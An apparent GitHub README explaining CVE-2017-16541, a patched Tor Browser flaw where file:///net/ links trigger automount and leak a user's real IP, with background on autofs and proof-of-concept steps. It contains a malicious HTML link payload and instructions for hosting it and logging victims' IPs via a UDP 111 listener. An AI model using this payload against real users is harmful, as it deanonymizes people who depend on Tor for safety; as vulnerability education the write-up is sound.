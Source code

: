 # A Breif Introdction of CVE-2017-16541 

## Vulnerability Details

![overview][overview-image]

### Overview
When a user open a webpage containing "file://" handler with Tor Browser(version <= 7.0.8), the automount/autofs will be called automatically. Because automount/autofs is processed by the kernel, Tor Browser can fail to use Tor circuit and any other proxies to hide the connection.Even if javascript is disabled, this vulnerability can still be exploited.

### What is Automount

For different hardware devices such as hard disk and CD rom, computers need different file systems to access the data. On linux and macOS, users should use command "mount" and specify the file system when they want to a access new storage devices which is very cumbersome.

Automount/Autofs is a convenient file system management tool whcih allows the system administrator to configure all the file systems that the machine can access. Therefore, users can access the storage devices in a completely transparent way without caring about how the kernel do all these jobs.

What's more, Automount allows NFS(Network File System) mount points to be automatically mounted when accessed. And Automount can be configured to allow a path starting with ‘/net/’ to specify the remote server address and path. For example, ‘ls /net/"test ip"/xxx’ will trigger an NFS connection to test ip. This is the default configuration on Mac OSX.

### How Does the Automount Deanonymize Tor Browser Users

1.Victim gets the malicious html which contains &#60;link href=’file:///net/"test ip"/a.css’ rel=’stylesheet’&#62;   through Tor Browser.

2.Tor Browser begins to load the a.css. Automount is triggered by the ’file:///net/"test ip"/a.css’ handler.

3.Victim's system connects to test ip directly, and the fake NFS learns the victim's real IP address. This connection is behind the scenes and automatic so the victim can not realise.

![process][process-image]
## PoC
Firstly, download 7.0.8 version of Tor Browser. [download](https://archive.torproject.org/tor-package-archive/torbrowser/7.0.8/)

Secondly, run a web server and upload our malicious html, such as running a nginx on google cloud, use other browsers to try to access the malicious page.
You can add an img tag in your html, because it can also trigger the exploitation.
Replace the IP address in the file:/// handler with the IP address of this server. In this way, victim will send udp package for NFS to this server.

![chrome][chrome-image]

Thirdly, on the same server, we run a python code which can listen to portmap requests (UDP port 111) and immediatley reject the connection. It can help us to prevent victims noticing and collect the IP address of victims.

![code][code-image]
![run][run-image]

Thirdly, open the tor browser and access our server, then the malicious web page is loaded.

If you do not see any direct connection between your computer and your server. It's normal, because for some reason the problem does not  occur reliably.

But you can type the view page info button, then IP address leak will happen. On server, you can see the true IP address of your computer, and on computer, you can see the captured udp packages which send to your server(with Wireshark or tcpdump).

![info][info-image]
![leak][leak-image]

## Solution 
Get a higher version of Tor Browser or manually install a patch.

## References 

[TorMoil – Deanonymize Tor Browser Users with Automount](https://www.wearesegment.com/research/tormoil-deanonymize-tor-browser-users-with-automount/). 

[Bug Tracking Log](https://bugzilla.mozilla.org/show_bug.cgi?id=1412081). 

[Tor Browser 7.0.9 is released](https://blog.torproject.org/tor-browser-709-released). 

[process-image]: ./process.png
[overview-image]: ./overview.png
[chrome-image]: ./chrome.png
[code-image]: ./code.png
[run-image]: ./run.png
[info-image]: ./info.png
[leak-image]: ./leak.png
